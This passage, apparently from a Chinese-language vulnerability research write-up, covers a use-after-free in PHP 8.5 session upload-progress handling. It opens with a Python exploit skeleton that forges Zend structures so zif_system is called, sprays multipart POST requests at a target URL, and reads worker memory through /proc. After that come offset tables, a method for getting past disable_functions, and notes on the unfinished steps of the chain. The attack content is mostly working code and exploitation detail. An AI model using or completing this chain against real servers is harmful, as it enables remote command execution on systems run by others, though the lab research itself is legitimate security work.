def build_payload(base: int, libphp: int, cmd: bytes) -> bytes:
    """按 L_* 布局拼一块 320 字节 payload。

    base  = 这块 payload 里 L_REF 的绝对地址（也就是悬空引用的落点）
    libphp= libphp.so 在本进程里的基址
    """
    buf = bytearray(PAYLOAD)

    # ---- fake zend_reference @ L_REF -------------------------------------
    # gc.refcount = 1 是整条链的钥匙：>1 时 zval_ptr_dtor 只递减，走不到
    # zend_reference_destroy()，后面全白搭。
    ref = L_REF
    buf[ref + 0x00:ref + 0x04] = p32(1)                          # gc.refcount
    buf[ref + 0x04:ref + 0x08] = p32(GC_TYPE_REFCOUNTED | IS_REFERENCE)
    buf[ref + 0x08:ref + 0x10] = p64(base + L_HT)                # val.value -> fake HashTable
    buf[ref + 0x10:ref + 0x14] = p32(GC_TYPE_REFCOUNTED | IS_ARRAY)  # val.type_info
    buf[ref + 0x18:ref + 0x20] = p64(0)                          # sources

    # ---- fake zend_array @ L_HT ------------------------------------------
    ht = L_HT
    buf[ht + 0x00:ht + 0x04] = p32(1)                            # gc.refcount（<=1 才允许销毁）
    buf[ht + 0x04:ht + 0x08] = p32(GC_TYPE_REFCOUNTED | IS_ARRAY)
    buf[ht + 0x08:ht + 0x0C] = p32(0)                            # u.flags = 0 -> 非 packed 分支
    buf[ht + 0x0C:ht + 0x10] = p32(0xFFFFFFF0)                   # nTableMask = -16
    buf[ht + 0x10:ht + 0x18] = p64(base + L_BUCKET)              # arData -> 伪桶
    buf[ht + 0x18:ht + 0x1C] = p32(1)                            # nNumUsed = 1
    buf[ht + 0x1C:ht + 0x20] = p32(1)                            # nNumOfElements = 1（无空洞）
    buf[ht + 0x20:ht + 0x24] = p32(8)                            # nTableSize
    buf[ht + 0x24:ht + 0x28] = p32(0)                            # nInternalPointer
    buf[ht + 0x28:ht + 0x30] = p64(0)                            # nNextFreeElement
    buf[ht + 0x30:ht + 0x38] = p64(libphp + OFF["zif_system"])   # pDestructor

    # ---- fake Bucket / fake zend_execute_data @ L_BUCKET -----------------
    # zend_hash_destroy() 调的是 pDestructor(&p->val)，而 Bucket.val 在偏移 0，
    # 所以「桶首地址」就是传给 zif_system 的那个 execute_data。
    ed = L_BUCKET
    buf[ed + ED_NUM_ARGS:ed + ED_NUM_ARGS + 4] = p32(1)          # 1 个参数
    buf[ed + ED_ARG1_VAL:ed + ED_ARG1_VAL + 8] = p64(base + L_CMD + 0x18)  # zend_string->val
    buf[ed + ED_ARG1_TYPE:ed + ED_ARG1_TYPE + 1] = bytes([IS_STRING])

    # ---- 命令字符串：照 zend_string 布局放，头部自洽，数据区是命令 ---------
    cmd_zstr = L_CMD
    buf[cmd_zstr + 0x00:cmd_zstr + 0x04] = p32(1)                # gc.refcount
    buf[cmd_zstr + 0x04:cmd_zstr + 0x08] = p32(0x0043)           # gc.type_info = IS_STRING
    buf[cmd_zstr + 0x08:cmd_zstr + 0x10] = p64(0)                # h
    buf[cmd_zstr + 0x10:cmd_zstr + 0x18] = p64(len(cmd))         # len
    buf[cmd_zstr + 0x18:cmd_zstr + 0x18 + len(cmd)] = cmd
    buf[cmd_zstr + 0x18 + len(cmd)] = 0                          # NUL
    return bytes(buf)


# ---------------------------------------------------------------------------
# multipart：把 payload 当作字段值喷洒
# ---------------------------------------------------------------------------
BOUNDARY = b"----p2s109619e9"


def part(name: str, body: bytes) -> bytes:
    return (b"--" + BOUNDARY + b"\r\n"
            + f'Content-Disposition: form-data; name="{name}"'.encode() + b"\r\n\r\n"
            + body + b"\r\n")


def build_spray(payload: bytes, n: int, sid: str) -> bytes:
    """第一发把会话与进度 key 立起来，随后 n 份 payload 去抢那块被释放的页。"""
    out = bytearray()
    out += part("PHPSESSID", sid.encode())
    out += part("PHP_SESSION_UPLOAD_PROGRESS", b"p" * 37)
    for i in range(n):
        out += part(f"t[{i}]", payload)
    out += b"--" + BOUNDARY + b"--\r\n"
    return bytes(out)


def fire(url: str, body: bytes, timeout: int = 60) -> tuple[int, bytes]:
    u = urlparse(url if "://" in url else "http://" + url)
    conn = http.client.HTTPConnection(u.hostname, u.port or 80, timeout=timeout)
    conn.request("POST", u.path or "/", body=body, headers={
        "Content-Type": f"multipart/form-data; boundary={BOUNDARY.decode()}",
        "Content-Length": str(len(body)),
        "User-Agent": "Mozilla/5.0",
        "Connection": "close",
    })
    resp = conn.getresponse()
    data = resp.read()
    conn.close()
    return resp.status, data


# ---------------------------------------------------------------------------
# 本地同版本构建上的原语确认（需要 root，读 /proc/<pid>/mem）
# ---------------------------------------------------------------------------
def read_maps(pid: int) -> tuple[int | None, list[int]]:
    libphp, chunks = None, []
    with open(f"/proc/{pid}/maps") as fh:
        for line in fh:
            m = re.match(r"([0-9a-f]+)-([0-9a-f]+) (\S+) (\S+)", line)
            if not m:
                continue
            start, end = int(m.group(1), 16), int(m.group(2), 16)
            perms, off = m.group(3), int(m.group(4), 16)
            path = line.split(None, 5)[5].strip() if len(line.split(None, 5)) > 5 else ""
            if path.endswith("libphp.so") and libphp is None:
                libphp = start - off
            # 2MiB、rw-p、匿名或 zend_alloc 挂名 —— Zend 的 chunk
            if perms == "rw-p" and (end - start) == 0x200000 and ("zend_alloc" in path or not path):
                chunks.append(start)
    return libphp, chunks


def read_mem(pid: int, addr: int, n: int) -> bytes:
    with open(f"/proc/{pid}/mem", "rb", buffering=0) as fh:
        fh.seek(addr)
        return fh.read(n)


def probe(pid: int) -> int:
    libphp, chunks = read_maps(pid)
    if not libphp:
        print(f"[-] pid {pid}: 没有 libphp.so，可能不是 mod_php worker")
        return 1
    ps = libphp + OFF["ps_globals"]
    val, tinfo = struct.unpack("<QQ", read_mem(pid, ps + PS_VAL, 16))
    print(f"libphp={hex(libphp)}  chunk={hex(chunks[0]) if chunks else '?'}")
    print(f"ps_globals+0x168 = {hex(val)}   type_info={hex(tinfo)}  "
          f"({'IS_REFERENCE' if tinfo & 0xF == IS_REFERENCE else 'NOT a reference'})")
    if not val:
        print("[-] 已复位（type_info=0），没有悬空原语 —— 目标开关应处于关闭态")
        return 1
    for c in chunks:
        if c <= val < c + 0x200000:
            print(f"chunk_rel = {hex(val - c)}  -> 落在已释放的请求堆里")
    ref = read_mem(pid, val, 32)
    rc, ti = struct.unpack("<II", ref[0:8])
    vptr, = struct.unpack("<Q", ref[8:16])
    print("--- *(_zend_reference*) ---")
    print(f"  refcount={rc}  type_info={hex(ti)}  val={hex(vptr)}")
    return 0


def main() -> int:
    ap = argparse.ArgumentParser(description="CVE-2026-109619 exp skeleton")
    ap.add_argument("-u", "--url", help="http://ip:port/index.php")
    ap.add_argument("--probe", type=int, metavar="PID", help="读 worker 内存确认原语")
    ap.add_argument("--base", help="悬空引用的绝对地址（由 --probe 的 chunk_rel 推出）")
    ap.add_argument("--libphp", help="libphp.so 基址")
    ap.add_argument("--chunk", help="zend chunk 基址")
    ap.add_argument("-n", "--count", type=int, default=200, help="喷洒份数")
    ap.add_argument("-c", "--cmd", default="id>/tmp/p2s", help="要执行的命令")
    args = ap.parse_args()

    if args.probe:
        return probe(args.probe)

    if not (args.url and args.chunk):
        ap.error("--url 与 --chunk 必填；先用 --probe 拿到 chunk 基址")
    chunk = int(args.chunk, 0)
    libphp = int(args.libphp, 0) if args.libphp else 0
    # ---- BLOCKED 就在这里 ------------------------------------------------
    # 悬空引用实测固定在 chunk+0x55140（页内 0x140 = 320，正好是 320-byte
    # bin 的槽位间隔整数倍）。但那个槽位里躺着的还是原始对象本身：
    #     refcount=2  type_info=0x1a  val=chunk+0x572d8
    # 两个后果，缺一不可地卡住链子：
    #   1) refcount=2。php_session_track_init() 只 dtor 一次，2 -> 1，
    #      进不了 zend_reference_destroy()；紧接着 ZVAL_NEW_REF 覆盖指针，
    #      陈旧引用就此泄漏、永远不会被销毁。
    #      -> 要先用 FILE_DATA 那个 8 字节写把 refcount 压成 1。
    #   2) ref->val 仍然指向旧的 $_SESSION 数组（pDestructor 是正常的
    #      zval_ptr_dtor），不是我们的伪 HashTable。
    #      -> 还要把 ref+0x08 的 8 字节改成伪表地址。
    # 六种尺寸各喷 200 份之后重读该地址，内容一字没变 —— 说明喷洒从未落到
    # 这个槽位上，问题不在 payload 的构造，而在堆占位。
    base = chunk + 0x55140
    payload = build_payload(base, libphp, args.cmd.encode())
    body = build_spray(payload, args.count, "a" * 100)
    print(f"[*] target {args.url}")
    print(f"[*] base   {hex(base)}  libphp={hex(libphp) if libphp else '?'}")
    print(f"[*] spray  {args.count} x {len(payload)}B  body={len(body)}")
    status, data = fire(args.url, body)
    print(f"[*] resp   {status}  len={len(data)}")
    print("[!] 发完了。链的最后一跳是否命中，取决于两件事：refcount 有没有降到 1、")
    print("    payload 有没有真的压在 chunk+0x55140 上 —— 都还没闭环，见报告第六节。")
    return 0


if __name__ == "__main__":
    sys.exit(main())
```

### 5.3 三个关键点

**① `pDestructor` 拿到的实参是桶首地址**



*图 8：`Zend/zend_hash.c:1733`。高亮两行是 `ht->pDestructor(&p->val)` —— 取的是 `&p->val`，不是 `p->val`*

```c
/* Zend/zend_hash.c:1760 附近 —— 非 packed 分支 */
} else {
	Bucket *p = ht->arData;
	Bucket *end = p + ht->nNumUsed;

	if (ht->pDestructor) {
		SET_INCONSISTENT(HT_IS_DESTROYING);

		if (HT_HAS_STATIC_KEYS_ONLY(ht)) {
			if (HT_IS_WITHOUT_HOLES(ht)) {
				do {
					ht->pDestructor(&p->val);
				} while (++p != end);
			}
			...
```

而 `Bucket` 的定义是 `zval val` 打头（偏移 0）。所以 `pDestructor` 的实参完全由 `arData` 指向的缓冲区内容决定，而 `pDestructor` 本身也是 `HashTable` 里的字段。**伪造 `HashTable` 一步同时拿到了「调什么」和「传什么」。**

**② 伪造 `HashTable` 的字段**



*图 9：`Zend/zend_types.h:408` 的 `struct _zend_array`，这是伪造时必须逐字段对齐的目标*

```c
/* Zend/zend_types.h:408 */
struct _zend_array {
	zend_refcounted_h gc;          /* +0x00  refcount(4) + type_info(4) */
	union {
		struct {
			ZEND_ENDIAN_LOHI_4(
				uint8_t    flags,
				uint8_t    _unused,
				uint8_t    nIteratorsCount,
				uint8_t    _unused2)
		} v;
		uint32_t flags;
	} u;                           /* +0x08 */
	uint32_t          nTableMask;  /* +0x0c */
	union {
		uint32_t     *arHash;
		Bucket       *arData;      /* +0x10 */
		zval         *arPacked;
	};
	uint32_t          nNumUsed;         /* +0x18 */
	uint32_t          nNumOfElements;   /* +0x1c */
	uint32_t          nTableSize;       /* +0x20 */
	uint32_t          nInternalPointer; /* +0x24 */
	zend_long         nNextFreeElement; /* +0x28 */
	dtor_func_t       pDestructor;      /* +0x30 */
};                                     /* sizeof = 56 */
```

PHP 8.5 实测偏移与上表逐项吻合。要填的六个值：

| 偏移 | 字段 | 值 |
|---|---|---|
| `+0x00` | `gc.refcount` | `1`（`<=1` 才允许销毁） |
| `+0x08` | `u.flags` | `0`（走非 packed 分支，才会用 `arData`） |
| `+0x0c` | `nTableMask` | `-16` |
| `+0x10` | `arData` | 指向伪桶数组 |
| `+0x18` / `+0x1c` | `nNumUsed` / `nNumOfElements` | 都填 `1`（`HT_IS_WITHOUT_HOLES`） |
| `+0x30` | `pDestructor` | `libphp + 0x5996e0` |

`zend_reference` 更短，只有 32 字节：`gc@0`、`val@8`、`sources@0x18`。其中 `gc.refcount` 必须为 `1` —— 否则 `zval_ptr_dtor()` 走到 `GC_DELREF(ref) > 0` 就直接返回，链子断在第一步。

**③ `zif_system` 只需要三个字段**



*图 10：`libphp+0x5996e0` 的 `zif_system` 与主体 `0x599440`。参数全部从 `[rdi+...]` 读，说明实参被当成 `zend_execute_data *`*

```
0x5996e0  mov edx, 1
0x5996e5  jmp 0x599440
```

主体 `php_exec_common` 的首批指令：

```
0x59944e  mov r13d, dword ptr [rdi + 0x2c]    ; num_args
0x599452  cmp  edx, 1                          ; 类型 = SYSTEM(1)，stub 已置好
0x59947a  cmp  byte ptr [rdi + 0x58], 6        ; arg1.type_info 必须是 IS_STRING
```

所以伪 `zend_execute_data` 只需满足：

| 偏移 | 含义 | 值 |
|---|---|---|
| `+0x2c` | `num_args` | `1` |
| `+0x50` | `arg1.value`（`zend_string *`） | 命令字符串地址 |
| `+0x58` | `arg1.type_info` | `6`（IS_STRING） |

`0x50` 这个数不是凑的：`ZEND_CALL_FRAME_SLOT = 5`，参数区从 `execute_data + 5*16` 开始。

### 5.4 `disable_functions` 不是障碍

目标把 `exec,system,shell_exec,passthru,proc_open,popen` 全禁了。但 `disable_functions` 的做法是把**函数表条目**的 handler 换成告警 stub，符号 `zif_system` 本体仍然完整地留在 `.text`。EXP 直接 `call` 符号地址，不查 `function_table`，这层限制天然无效。同理 `open_basedir` 也拦不住 `popen`/`fork+exec`。

### 5.5 攻击面判定

同一份 PoC，同一台机器，只切 `session.upload_progress.enabled`：



*图 11：开关 On 时悬空引用成立；Off 时同一发请求的 OOM 一字不差，但全局变量被正常复位*

结论：**OOM 本身跟这个开关无关，悬空的产生只挂在这条 rfc1867 路径上。** 这也是靶场上判定「这个点能不能打」最省事的办法 —— 别去猜版本号，直接看这一发的结果。

---

## 六、当前卡点与下一步

如实标注：**链已成型，最后一步没打通。** 不拿「触发成功」冒充「命令执行成功」。

**卡点一：陈旧引用是 `refcount=2`，析构进不了销毁分支。**

PoC 跑完读 `chunk+0x55140`，里面躺着的是**完好的原始对象**：

```
02 00 00 00 1a 00 00 00   refcount=2  type_info=0x1a  (IS_REFERENCE)
d8 72 a5 44 21 7c 00 00   val = chunk+0x572d8（旧 $_SESSION 数组）
07 03 00 00               val.type_info = 0x307（IS_ARRAY|0x300）
```

下一发请求走到 `php_session_track_init()` 时只 `zval_ptr_dtor()` 一次 —— `2 → 1`，`GC_DELREF(ref) > 0`，直接返回。`zend_reference_destroy()` 不触发，`ref->val` 也就不会被 dtor，链断在最早的一跳。紧接着 `ZVAL_NEW_REF()` 把指针覆盖掉，这个陈旧引用就此泄漏、永远不会被销毁。

要过这一关，得先用 3.4 节那个 8 字节写把 `refcount` 压成 `1`（写入值就是 `data->post_bytes_processed`，可控）。

**卡点二：即使用上了写原语，`ref->val` 也还不是伪 HashTable。**

`ref->val` 当前指向 `chunk+0x572d8` 的旧 `$_SESSION` 数组，它的 `pDestructor` 是正常的 `zval_ptr_dtor`（`libphp+0x7b47a0`）。就算 `refcount` 改成 1 让销毁跑起来，走到的也只是又一次普通析构，不会跳到 `zif_system`。

所以还必须在 `ref+0x08` 写一次 `val.value = 伪 HashTable 地址`。也就是说：**这条链至少要吃两次独立的写入，而当前拿到的原语每次只能打一个固定地址**（`progress->post_bytes_processed` 缓存的那个 `&bucket->val`）。

**卡点三：喷洒始终没落到这块槽位。**

六种尺寸（64/128/256/512/1024/2048 字节，各 200 份）喷完之后重读 `chunk+0x55140`，内容**一个字节都没变** —— 还是上面的 `refcount=2 / type_info=0x1a`。说明问题不在 payload 的构造，而在堆占位：这批字符串全落在别处，没压到目标槽位。

这个地址的页内偏移是 `0x140`（320），正好是 320-byte bin 的槽位间隔整数倍，所以槽位本身是能被这个 size class 命中的；只是**由谁来命中、在什么时机命中**还没被控制住。

**两条可以接着走的路：**

1. 用 `Z_LVAL_P(progress->post_bytes_processed) = data->post_bytes_processed` 这个 8 字节写，先精确改掉目标处的一个 4/8 字节字段，把「只能打一个固定地址」变成「能按需改两个字段」，再让下一发请求走销毁路径；
2. 用整块 2MiB 扫描把「谁在什么时候占住 `chunk+0x55140`」定位清楚，把那条分配路径的尺寸/数量调成能承载伪结构的形态，并让 `ref->val` 与伪表落在同一块 payload 里。

**另外别忘了地址前提。** 就算上面闭环，链子仍然要求：

| 前提 | 本靶场 | 说明 |
|---|---|---|
| 运行时地址（`libphp` 基址、chunk 基址） | 满足（本地可读 `/proc`） | 公开仓库写明 `in-band address sourcing remains open`，纯远程还需要一个地址泄露原语 |
| 单 worker | 满足（`MaxRequestWorkers=1`） | 多 worker 时无法保证下一发落回被污染的进程 |
| 偏移与构建绑定 | 满足（版本固定） | 换发行版/编译参数就得重算 |

---

## 七、附录

### A. 本构建关键偏移（PHP 8.5.11 / Debian apache2handler，相对 `libphp.so` 基址）

| 符号 | 偏移 |
|---|---|
| `zif_system` | `0x5996e0` |
| `zif_system` 主体（`php_exec_common`） | `0x599440` |
| `zend_call_function` | `0x6fffb0` |
| `zval_ptr_dtor` | `0x7b47a0` |
| `zend_hash_destroy` | `0x768e30` |
| `ps_globals` | `0x1771a40` |
| `PS(http_session_vars)` | `ps_globals + 0x168`（value） / `+0x170`（type_info） |

### B. 实测数据点

| 项 | 值 |
|---|---|
| PoC 请求体 | 25,166,328 字节 |
| OOM 报文 | `16777216 bytes exhausted (tried to allocate 6296371 bytes)` |
| 悬空引用 | `chunk+0x55140`，refcount=2，type_info=0x1a |
| 旧 `$_SESSION` 数组 | `chunk+0x572d8`，`pDestructor = libphp+0x7b47a0` |
| 喷洒后目标槽位 | 内容未变（仍 `refcount=2`），说明没有 payload 落到该地址 |

### C. 源码位置

`main.c`（`php_request_startup`）、`ext/session/session.c`（`php_session_track_init` / `php_session_rfc1867_update` / `php_session_rfc1867_callback` / `php_rshutdown_session_globals`）、`Zend/zend_hash.c`（`zend_hash_destroy` / `_zend_hash_add_or_update_i`）、`Zend/zend_types.h`（`struct _zend_array` / `struct _zend_reference` / `Bucket`）。

同族公开研究：`php2shell-CVE-2026-109618-CVE-2026-109619-PoC`（109618 走的是 `zend_call_function` 那条变体，`forge()` 里伪造的是 `zend_fcall_info`，思路一致）。

---

> 本文所有验证都在自有靶场完成。靶场内的 `/flag` 仅作判定，请勿对未授权目标使用其中任何技术。
